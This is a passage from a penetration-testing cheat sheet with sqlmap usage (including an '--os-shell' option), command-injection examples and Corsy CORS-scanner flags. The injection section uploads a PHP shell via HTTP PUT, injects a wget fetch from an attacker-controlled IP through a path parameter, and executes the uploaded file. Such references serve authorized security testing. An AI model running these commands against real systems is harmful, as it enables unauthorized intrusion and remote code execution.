 Attempts to exploit the “user” field using boolean technique
```
sqlmap -p user --technique=B
```

Capture a request via Burp Suite, save it to a file, and use this command to let sqlmap automate everything. Add –os-shell at the end to pop a shell if possible
```
sqlmap -r <captured request>
```

## Command Injection

File Traverse
```
website.com/file.php[?path=/]
```

Test HTTP options using curl
```
curl -vX OPTIONS [website]
```

Upload file using CURL to website with PUT option available
```
curl --upload-file shell.php --url http://192.168.218.139/test/shell.php --http1.0
```

Transfer file
```
?path=/; wget http://IPADDRESS:8000/FILENAME.EXTENTION;
```

Activate shell file
```
; php -f filelocation.php;
```

## Corsy
* Scans for all known misconfigurations in CORS implementations.

Standard scan
```
python3 corsy.py -u https://example.com
```
Scan URLs from a file
```
python3 corsy.py -i /path/urls.txt
```
Scan URLs from stdin
```
cat urls.txt | python3 corsy.py
```
Number of threads
```
python3 corsy.py -u https://example.com -t 20
```
Delay between requests
```
python3 corsy.py -u https://example.com -d 2
```
Export results to JSON
```
python3 corsy.py -i /path/urls.txt -o /path/output.json
```
Custom HTTP headers
```
python3 corsy.py -u https://example.com --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```

